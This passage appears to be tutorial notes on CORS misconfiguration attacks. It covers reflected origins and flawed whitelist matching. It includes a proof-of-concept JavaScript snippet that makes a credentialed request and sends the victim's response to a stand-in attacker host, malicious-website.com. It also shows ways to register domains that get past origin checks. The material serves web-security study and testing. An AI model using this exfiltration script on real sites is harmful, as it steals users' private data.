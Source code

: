 ```html
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

It responds with:

```html
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Since the app reflects arbitrary origins, it means any domain can access resources from the vulnerable domain. If the response has sensitive info, you can extract it:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```
# Error Parsing Origin Headers

Some apps support using a whitelist. When a CORS request is received, the origin is compared to it. If it appears, then it is reflected in the ACAO header. For example:

```html
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```

The app checks the supplied origin and if it is on the whitelist, it reflects it:

```html
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

Some orgs allow access from all subdomains and some allow access from other orgs domains including their subdomains. Rules are often implemented by matching URL prefixes or suffixes or via regex. Suppose an app grants access to all domains ending in `normal-website.com`. 

An attacker can gain access by registering `hackernormal-website.com`. Or if an app supports all domains beginning with `normal-website.com` an attacker can register `normal-website.com.evil-user.net`.
# Trusted Null Origin
